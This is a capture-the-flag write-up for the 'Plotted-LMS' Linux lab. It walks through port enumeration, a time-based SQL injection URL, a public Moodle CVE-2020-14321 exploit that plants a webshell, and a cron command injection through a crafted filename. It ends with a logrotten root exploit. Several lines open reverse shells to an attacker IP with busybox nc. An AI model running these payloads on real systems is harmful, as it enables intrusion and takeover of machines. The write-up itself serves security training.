


# Plotted-LMS

### Typology: _Linux_

---

We can start by enumerating the target ports with nmap:
```bash

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 67:af:92:c1:f0:9f:8a:18:62:8d:bf:ba:c4:58:8d:52 (RSA)
|   256 03:ca:42:df:ef:4b:3e:e6:91:0e:b2:bc:b4:42:1e:d1 (ECDSA)
|_  256 f1:ed:8a:8d:e4:87:d8:c7:69:c1:ca:2b:a4:dc:0c:dc (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
873/tcp  open  http    Apache httpd 2.4.52 ((Debian))
|_http-server-header: Apache/2.4.52 (Debian)
|_http-title: Apache2 Debian Default Page: It works
8820/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
9020/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Summarize:

| **_Port_** |                                         **_Description_**                                        |
|:----------:| ------------------------------------------------------------------------------------------------ |
| Port 22    | SSH service is open but we don't have any credentials |
| Port 80    | HTTP service on a Apache version 2.4.41                                            |
| Port 873   | HTTP service on a Apache version 2.4.52                                            |
| Port 8820  | HTTP service on a Apache version 2.4.41                                             |
| Port 9020  | HTTP service on a Apache version 2.4.41


There are a lot of HTTP ports we should visit all of them:

> for better reading flow, I first included in the writeup the HTTP ports that led to nothing or contained rabbithole, lastly the one that contained the foothold

### 80:



It's a default apache webpage let's enumerate via feroxbuster:
```bash
feroxbuster -u http://10.10.23.251/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,bak,py,js,html,pdf

200      GET      375l      964w    10918c http://10.10.23.251/index.html
200      GET       15l       74w     6147c http://10.10.23.251/icons/ubuntu-logo.png
200      GET      375l      964w    10918c http://10.10.23.251/
```
Nothing to check...

### 873:

It's another default Apache webpage so:
```bash
feroxbuster -u http://10.10.23.251:873/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,bak,py,js,html,pdf

200      GET      368l      933w    10701c http://10.10.23.251:873/index.html
200      GET        1l        8w       37c http://10.10.23.251:873/secret.txt
301      GET        9l       28w      316c http://10.10.23.251:873/rail => http://10.10.23.251:873/rail/
200      GET       43l      290w     2800c http://10.10.23.251:873/rail/home.php
500      GET       11l       30w      487c http://10.10.23.251:873/rail/about.php
301      GET        9l       28w      324c http://10.10.23.251:873/rail/uploads => http://10.10.23.251:873/rail/uploads/
500      GET       11l       31w      499c http://10.10.23.251:873/rail/contact_us.php
200      GET      458l     1310w    20982c http://10.10.23.251:873/rail/index.php
301      GET        9l       28w      322c http://10.10.23.251:873/rail/admin => http://10.10.23.251:873/rail/admin/
200      GET        1l      219w     1660c http://10.10.23.251:873/rail/welcome.html
200      GET       56l      425w    37063c http://10.10.23.251:873/rail/uploads/logo-1641351863.png
200      GET      149l      958w    71028c http://10.10.23.251:873/rail/uploads/avatar-1.png
200      GET      121l      799w    75803c http://10.10.23.251:873/rail/uploads/avatar-4.png
500      GET        1l        2w       15c http://10.10.23.251:873/rail/admin/home.php
```

- _secret.txt:_

If we visit the page there is our first rabbithole `Do you really think it is this easy?`

- _/rail:_

Rail folder seems more interesting:


There is a login page, we don't have any credentials but a quick search on google `Online Railway Reservation System vuln` made it possible to find this [POC](https://www.exploit-db.com/exploits/50646) an SQLI time based 

We can test it by navigating to this URL: `http://<ip machine>:873/rail/?page=reserve&sid=1%27)%20AND%20(SELECT%206842%20FROM%20(SELECT(SLEEP(5)))UsWr)%20AND%20(%27WBCm%27=%27WBCm`,there should be a 5 seconds delay, we can automate the SQLI via sqlmap tool:
```bash
sqlmap 'http://10.10.23.251:873/rail/?page=reserve&sid=1*' --batch --dump
```
After some time spent to wait sqlmap, it prompts some creds but they're useless. It was another rabbithole

> Trust me I spent like an hour 

### 8820:

Also this time we have an Apache webpage

Feroxbuster:
```bash
feroxbuster -u http://10.10.23.251:8820/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,bak,py,js,html,pdf

200      GET       15l       74w     6147c http://10.10.23.251:8820/icons/ubuntu-logo.png
200      GET      375l      964w    10918c http://10.10.23.251:8820/
200      GET      375l      964w    10918c http://10.10.23.251:8820/index.html
301      GET        9l       28w      319c http://10.10.23.251:8820/learn => http://10.10.23.251:8820/learn/
200      GET        1l        1w        5c http://10.10.23.251:8820/learn/login.php
200      GET      203l      532w     4359c http://10.10.23.251:8820/learn/admin/assets/styles.css
200      GET       72l       89w     1067c http://10.10.23.251:8820/learn/admin/bootstrap/css/print.css
200      GET      112l      303w     2777c http://10.10.23.251:8820/learn/admin/vendors/fullcalendar/gcal.js
200      GET      352l     1759w    14128c http://10.10.23.251:8820/learn/admin/vendors/jGrowl/jquery.jgrowl.js
200      GET      173l      594w     4460c http://10.10.23.251:8820/learn/admin/assets/jquery.hoverdir.js
200      GET        9l      246w    16840c http://10.10.23.251:8820/learn/admin/bootstrap/css/bootstrap-responsive.min.css
200      GET     5220l    13646w   124634c http://10.10.23.251:8820/learn/admin/vendors/fullcalendar/fullcalendar.js
200      GET      174l      477w     7921c http://10.10.23.251:8820/learn/history.php
200      GET       29l       97w     1700c http://10.10.23.251:8820/learn/header.php
302      GET       37l      125w     2154c http://10.10.23.251:8820/learn/student_notification.php => index.php
200      GET      310l      787w    12291c http://10.10.23.251:8820/learn/signup_student.php
301      GET        9l       28w      325c http://10.10.23.251:8820/learn/admin => http://10.10.23.251:8820/learn/admin/
200      GET      180l      388w     3836c http://10.10.23.251:8820/learn/admin/assets/DT_bootstrap.css
200      GET      159l      494w     4538c http://10.10.23.251:8820/learn/admin/assets/DT_bootstrap.js
[SNIP]
```


This time we have __"Learning Managemente system"__ with a login page but we don't have any credentials

There are some POC but as well this time it's another rabbit hole

### 9020:

The last port has another Apache webpage

Feroxbuster:
```bash
feroxbuster -u http://10.10.23.251:9020/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,bak,py,js,html,pdf

200      GET      375l      964w    10918c http://10.10.23.251:9020/index.html
200      GET       15l       74w     6147c http://10.10.23.251:9020/icons/ubuntu-logo.png
200      GET      375l      964w    10918c http://10.10.23.251:9020/
200      GET        1l        1w      129c http://10.10.23.251:9020/user.txt
301      GET        9l       28w      320c http://10.10.23.251:9020/moodle => http://10.10.23.251:9020/moodle/
301      GET        9l       28w      328c http://10.10.23.251:9020/moodle/privacy => http://10.10.23.251:9020/moodle/privacy/
301      GET        9l       28w      324c http://10.10.23.251:9020/moodle/rss => http://10.10.23.251:9020/moodle/rss/
301      GET        9l       28w      326c http://10.10.23.251:9020/moodle/media => http://10.10.23.251:9020/moodle/media/
301      GET        9l       28w      326c http://10.10.23.251:9020/moodle/files => http://10.10.23.251:9020/moodle/files/
301      GET        9l       28w      329c http://10.10.23.251:9020/moodle/calendar => http://10.10.23.251:9020/moodle/calendar/
301      GET        9l       28w      327c http://10.10.23.251:9020/moodle/search => http://10.10.23.251:9020/moodle/search/
200      GET      325l     1315w    30331c http://10.10.23.251:9020/moodle/index.php
301      GET        9l       28w      325c http://10.10.23.251:9020/moodle/blog => http://10.10.23.251:9020/moodle/blog/
301      GET        9l       28w      326c http://10.10.23.251:9020/moodle/login => http://10.10.23.251:9020/moodle/login/
301      GET        9l       28w      325c http://10.10.23.251:9020/moodle/user => http://10.10.23.251:9020/moodle/user/
404      GET      342l     1267w    29779c http://10.10.23.251:9020/moodle/help.php
```
> Yeah user.txt = rabbithole

### Moodle:

we have /moodle:



There 3 available courses but we need to create a user in order to access it so: __"left click on the Log In-> Create new account-> create a new account with fake creds"__

looking around the webpages brought few results: there are some XSS injection in some input but they're useless and the only valuable things are the courses

We can see some method to pentesting Moodle on [Hacktricks' site](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/moodle), indeed we can usee the [moodlescan.py](https://github.com/inc0d3/moodlescan) to retrieve some informations:
```bash
git clone https://github.com/inc0d3/moodlescan.git
cd moodlescan
pip3 install -r requirements.txt
```
then:
```bash
python3 moodlescan.py -a -r -u http://10.10.23.251:9020/moodle/

Getting moodle version...
Version found via /admin/tool/lp/tests/behat/course_competencies.feature : Moodle v3.9.0-beta

Searching vulnerabilities...
Vulnerabilities found: 0
```
It returns 0 vuln but we have the version __"Moodle v3.9.0-beta"__, we can search some exploits on google.

### CVE-2020-14321 and POC:

The research has paid off: this [POC](https://github.com/HoangKien1020/CVE-2020-14321) automate the exploit of __"CVE-2020-14321"__(RCE)

> I found this [video](https://www.youtube.com/watch?v=BkEInFI4oIU) if you want exploit manually

First step enroll in the 'Teachers Only', this the only course we can have permission to add other members

Second step we navigate to __"Dev-Tools-> Application-> Cookies-> MoodleSession-> copy and save the cookie"__

Third step:
```bash
git clone https://github.com/HoangKien1020/CVE-2020-14321.git
cd CVE-2020-14321
python3 cve202014321.py -url http://10.10.23.251:9020/moodle -cookie=<cookie saved>

[+] Your target: http://10.10.23.251:9020/moodle
[+] Logging in to teacher
[+] Teacher logins successfully!
[+] Privilege Escalation To Manager in the course Done!
[+] Maybe RCE via install plugins!
[+] Checking RCE ...
[+] RCE link in here:
http://10.10.23.251:9020/moodle/blocks/rce/lang/en/block_rce.php?cmd=whoami
```
If everything works the POC will upload a webshell, we can redirect the webshell to pwncat with the following commands:

listener:
```bash
python3 -m pwncat -lp 7777 
```
```bash
http://10.10.23.251:9020/moodle/blocks/rce/lang/en/block_rce.php?cmd=busybox%20nc%2010.8.98.143%207777%20-e%20bash
```
We're in, it's time to do some manually recognition

### Privesc User:

The command `cat /etc/crontab` give this results:
```bash
* *     * * *   plot_admin /usr/bin/python3 /home/plot_admin/backup.py
```
a cronjob run by plot_admin who execute a bash script with the following code:

> we can read in plot_admin's home
```bash
import os

moodle_location = "/var/www/uploadedfiles/filedir/"
backup_location = "/home/plot_admin/.moodle_backup/"

os.system("/usr/bin/rm -rf " + backup_location + "*")

for (root,dirs,files) in os.walk(moodle_location):
        for file in files:
                os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
```
This script copy all files from /filedir to .moodle_backup, the only thing we have rights is __"/var/www/uploadedfiles/filedir/"__.

The idea is to do command injection with a file called __";$(busybox nc <ip> <port> -e bash=);"__ because in the function __"os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)"__ at the file variable we can the possibility to inject it with the following commands:
```bash
pwncat-cs -lp 8888 #listener
```

```bash
cd /var/www/uploadedfiles/filedir
touch -- ';$(busybox nc 10.8.98.143 8888 -e bash);'
```

If we wait one minute we will have a revshell as plot_admin and we can retrieve the user flag.

### Privesc Root:

If we remember there was another cronjob run as root:
```bash
* *     * * *   root    /usr/bin/rsync /var/log/apache2/m*_access /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y); /usr/bin/chown -R plot_admin:plot_admin /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y)
```
a cronjob that it saves the apache log in .logs_backup and change the owner for all log files we need a tool in order to go deeper in this situation:
```bash
chmod +x pspy
./pspy

2024/01/12 15:38:01 CMD: UID=0     PID=21509  | /bin/sh -c /usr/local/sbin/logrotate -f /etc/logbackup.cfg 
2024/01/12 15:38:01 CMD: UID=0     PID=21510  | /bin/sh -c /usr/bin/ssh root@127.0.0.1 '. /etc/bash_completion'
```
There is logrotate another command to investigate further:
```bash
logrotate --version

logrotate 3.15.0
```
Yeah is vulnerable to logrotten, we can exploit it with the following command:
```bash
git clone https://github.com/whotwagner/logrotten.git #in the host machine
cd logrotten

echo -e '#!/bin/bash\n busybox nc 10.8.98.143 8889 -e bash' > payload.sh
chmod +x payload.sh

gcc logrotten.c -o logrotten -static
```
listener:
```bash
python3 -m pwncat -lp 8889
```
We pass the payload.sh and logrotten in a word writable folder on the target machine and we run the following command:
```bash
./logrotten -p payload.sh /home/plot_admin/.logs_backup/moodle_access
```
we have our callback and we're root.